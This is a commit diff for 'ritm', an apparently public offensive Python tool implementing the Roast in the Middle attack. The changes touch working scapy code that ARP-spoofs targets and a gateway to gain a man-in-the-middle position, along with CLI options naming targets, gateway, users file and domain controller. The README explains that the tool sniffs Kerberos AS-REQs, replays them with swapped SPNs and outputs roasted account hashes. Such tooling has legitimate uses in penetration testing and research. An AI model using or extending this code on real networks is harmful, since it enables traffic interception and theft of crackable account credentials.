

updates, interface fixes

diff --git a/ritm/lib/spoofer.py b/ritm/lib/spoofer.py
@@ -20,31 +20,37 @@ class Spoofer:
 
 
     # get the MAC address of a given IP
-    @staticmethod
-    def _get_mac(ip):
-        ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0)
-        if ans:
-            return ans[0][1].src
-        return None
+    def _get_mac(self, ip):
+        try:
+            ans, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff')/ARP(pdst=ip), timeout=3, verbose=0, iface=self.__interface)
+            if ans:
+                return ans[0][1].src
+            return None
+        except OSError as e:
+            if 'No such device' in str(e):
+                logger.error(f'{self.__interface} is not a valid interface')
+            else:
+                logger.error(str(e))
+            exit(1)
 
 
     # start ARP spoofing attack so we can obtain MitM position
     def start(self):
         logger.info('Starting spoofer...')
-        self.__gateway_mac = Spoofer._get_mac(self.__gateway)
+        self.__gateway_mac = self._get_mac(self.__gateway)
         if self.__gateway_mac == None:
             logger.warning('Unable to get gateway\'s MAC, exiting...')
             exit(0)
 
         for target in self.__targets:
-            target_mac = Spoofer._get_mac(target)
+            target_mac = self._get_mac(target)
             if target_mac is None:
                 logger.warning(f'Unable to get MAC for target {target}')
             else:
                 logger.debug(f'Target {target} has MAC {target_mac}')
                 self.__target_dict[target] = target_mac
-                target_thread = Thread(target=Spoofer._spoof_target, args=(target, target_mac, self.__gateway, self.__gateway_mac, self.__mac, ), daemon=True)
-                gateway_thread = Thread(target=Spoofer._spoof_target, args=(self.__gateway, self.__gateway_mac, target, target_mac, self.__mac, ), daemon=True)
+                target_thread = Thread(target=Spoofer._spoof_target, args=(target, target_mac, self.__gateway, self.__gateway_mac, self.__mac, self.__interface, ), daemon=True)
+                gateway_thread = Thread(target=Spoofer._spoof_target, args=(self.__gateway, self.__gateway_mac, target, target_mac, self.__mac, self.__interface, ), daemon=True)
                 self.__threads.append(target_thread)
                 self.__threads.append(gateway_thread)
         
@@ -73,11 +79,11 @@ class Spoofer:
         for target_ip, target_mac in self.__target_dict.items():
             # restore target
             packet = ARP(pdst=target_ip, hwdst=target_mac, psrc=self.__gateway, hwsrc=self.__gateway_mac, op=2)
-            send(packet, verbose=0)
+            send(packet, verbose=0, iface=self.__interface)
 
             # restore gateway
             packet = ARP(pdst=self.__gateway, hwdst=self.__gateway_mac, psrc=target_ip, hwsrc=target_mac, op=2)
-            send(packet, verbose=0)
+            send(packet, verbose=0, iface=self.__interface)
 
             logger.debug(f'ARP cache for {target_ip} restored')
 
@@ -86,12 +92,12 @@ class Spoofer:
 
     # method to handle threaded ARP spoofing
     @staticmethod
-    def _spoof_target(target_ip, target_mac, host_ip, host_mac, attacker_mac):
+    def _spoof_target(target_ip, target_mac, host_ip, host_mac, attacker_mac, interface):
         current_thread = currentThread()
         while getattr(current_thread, "spoof", True):
             logger.debug(f'Spoofing {host_ip} is-at {attacker_mac} to {target_ip}')
             packet = ARP(pdst=target_ip, hwdst=target_mac, psrc=host_ip, op=2)
-            send(packet, verbose=0)
+            send(packet, verbose=0, iface=interface)
             time.sleep(5)
         logger.debug(f'Terminated thread spoofing {host_ip} to {target_ip}')
 

diff --git a/ritm/__main__.py b/ritm/__main__.py
@@ -16,10 +16,10 @@ app = typer.Typer(
 def main(
     interface: str = typer.Option('eth0', '--interface', '-i', metavar='INTERFACE', help='Interface to listen on', rich_help_panel='Spoofing Options'),
     targets: List[str] = typer.Option(..., '--target', '-t', metavar='IP_ADDR', help='Target to ARP spoof (flag can be used multiple times)', rich_help_panel='Spoofing Options'),
-    gateway: str = typer.Option(..., '--gateway', '-g', help='Gateway to spoof', rich_help_panel='Spoofing Options'),
+    gateway: str = typer.Option(..., '--gateway', '-g', metavar='IP_ADDR', help='Gateway to spoof', rich_help_panel='Spoofing Options'),
     users_file: typer.FileText = typer.Option(..., '--users-file', '-u', help='File containing usernames (or SPNs) to attempt to roast', rich_help_panel='Roasting Options'),
-    output_file: str = typer.Option(None, '--output-file', '-o', help='Output file for roasted hashes', rich_help_panel='Roasting Options'),
-    dc_ip: str = typer.Option(None, '--dc-ip', '-d', help='Domain controller to roast', rich_help_panel='Roasting Options'),
+    output_file: str = typer.Option(None, '--output-file', '-o', metavar='FILENAME', help='Output file for roasted hashes', rich_help_panel='Roasting Options'),
+    dc_ip: str = typer.Option(None, '--dc-ip', '-d', metavar='IP_ADDR', help='Domain controller to roast', rich_help_panel='Roasting Options'),
     debug: bool = typer.Option(False, '--debug', help='Enable [green]DEBUG[/] output')):
 
     banner()

diff --git a/ritm/lib/sniffer.py b/ritm/lib/sniffer.py
@@ -39,7 +39,6 @@ class Sniffer:
         try:
             self.__sniff_thread = Thread(target=self._sniff, daemon=True)
             self.__sniff_thread.start()
-            #sniff(iface=self.__interface, prn=self, store=0)
         except OSError as e:
             if 'No such device' in str(e):
                 logger.error(f'{self.__interface} is not a valid interface')

diff --git a/README.md b/README.md
@@ -2,7 +2,7 @@
 This is a Python implementation of the man-in-the-middle attack described by Charlie Clark ([@exploitph](https://twitter.com/exploitph)) in his post, [New Attack Paths? AS Requested Service Tickets](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), and demonstrated in his proof-of-concept, [Roast in the Middle](https://github.com/0xe7/RoastInTheMiddle).
 
 In short, this tool:
-1. Performs ARP spoofing between your targets and the gateway (or targets and the DCs, if all on the same subnet) to man-in-the-middle traffic
+1. Performs ARP spoofing between your target(s) and the gateway to obtain a man-in-the-middle position
 2. Sniffs traffic for an AS-REQ containing `PA-ENC-TIMESTAMP` data (yes, this will miss a valid AS-REQ where pre-auth is not required)
 3. Replays the sniffed AS-REQ to a DC after changing the SPN to usernames/SPNs provided via a file
 4. Outputs any roasted account hashes
